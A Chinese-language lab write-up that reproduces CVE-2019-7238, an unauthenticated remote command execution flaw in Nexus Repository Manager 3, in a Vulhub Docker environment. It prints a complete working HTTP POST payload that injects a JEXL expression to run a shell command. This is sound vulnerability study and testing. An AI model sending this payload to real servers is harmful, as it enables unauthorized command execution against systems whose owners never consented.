



# Nexus Repository Manager 3 远程命令执行漏洞（CVE-2019-7238）

## 0x01 搭建漏洞环境

*漏洞介绍*

`Nexus Repository Manager`是Sonatype公司的一个产品，简称NXRM，它是一款通用的软件包仓库管理服务，可以简单的理解为Maven的私服。其`Nexus Repository Manager OSS/Pro 3.6.2版本到3.14.0`版本，存在一处基于`OrientDB`自定义函数的任意`JEXL表达式`执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞

*影响版本*

Nexus Repository Manager OSS/Pro 3.6.2版本到3.14.0版本


利用[Vulhub](https://github.com/vulhub/vulhub)里的`nexus/CVE-2019-7238`的nexus版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://your-ip:8081/`即可看到web页面，说明`nexus`已成功启动。

使用账号密码`admin/admin123`登录平台，然后在`maven-releases`下随便上传一个jar包：



上传原因为触发该漏洞，必须保证仓库里至少有一个包存在。

## 0x02 漏洞复现

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/zhengjim`命令：

POST包
```
POST /service/extdirect HTTP/1.1
Host: 192.168.10.128:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 373
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/zhengjim')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```


发送数据包，到服务器查看发现命令已经执行成功



复现成功

有人会认为没回显，可以使用dnslog。

